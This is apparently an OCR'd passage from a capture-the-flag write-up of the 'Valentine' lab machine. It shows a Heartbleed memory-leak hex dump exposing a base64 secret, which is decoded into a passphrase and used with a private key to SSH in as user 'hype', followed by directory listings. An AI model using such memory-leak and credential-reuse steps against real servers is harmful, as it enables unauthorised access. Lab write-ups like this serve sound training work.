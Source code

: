   0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.                                                                                                                                                                                                                                                    
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................                                                                                                                                                                                                                                                    
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.                                                                                                                                                                                                                                                    
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...                                                                                                                                                                                                                                                    
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............                                                                                                                                                                                                                                                    
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 6B  mV0aGVoeXBlCg==k
  0160: E3 2F FC 0B 6F FF 98 A0 66 91 95 F7 AA 99 1A 29  ./..o...f......)
  0170: D8 61 54 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  .aT.............




$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==


echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype


ssh -i private_key.rsa hype@10.10.10.79
heartbleedbelievethehype

hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)


hype@Valentine:/$ ls -alh
total 108K
drwxr-xr-x  26 root root 4.0K Feb  6  2018 .
drwxr-xr-x  26 root root 4.0K Feb  6  2018 ..
drwxr-xr-x   2 root root 4.0K Dec 11  2017 bin
drwxr-xr-x   3 root root 4.0K Feb 16  2018 boot
drwxr-xr-x   2 root root 4.0K Dec 11  2017 cdrom
drwxr-xr-x  13 root root 4.0K Jan 22 05:01 dev
drwxr-xr-x   2 root root 4.0K Dec 13  2017 devs
drwxr-xr-x   2 root hype 4.0K Jan 22 05:01 .devs
drwxr-xr-x 132 root root  12K Jan 22 05:01 etc
drwxr-xr-x   3 root root 4.0K Dec 11  2017 home
lrwxrwxrwx   1 root root   32 Dec 11  2017 initrd.img -> boot/initrd.img-3.2.0-23-generic
drwxr-xr-x  21 root root 4.0K Dec 11  2017 lib
drwxr-xr-x   2 root root 4.0K Apr 25  2012 lib64
drwx------   2 root root  16K Dec 11  2017 lost+found
drwxr-xr-x   3 root root 4.0K Apr 25  2012 media
drwxr-xr-x   3 root root 4.0K Dec 11  2017 mnt
drwx------   2 root root 4.0K Dec 13  2017 opt
dr-xr-xr-x  95 root root    0 Jan 22 05:01 proc
drwx------   4 root root 4.0K Feb  6  2018 root
drwxr-xr-x  20 root root  740 Jan 22 06:01 run
drwxr-xr-x   2 root root 4.0K Feb 16  2018 sbin
drwxr-xr-x   2 root root 4.0K Mar  5  2012 selinux
drwxr-xr-x   2 root root 4.0K Apr 25  2012 srv
drwxr-xr-x  13 root root    0 Jan 22 05:01 sys
drwxrwxrwt   5 root root 4.0K Jan 22 06:04 tmp
drwxr-xr-x  10 root root 4.0K Apr 25  2012 usr
drwxr-xr-x  14 root root 4.0K Feb  6  2018 var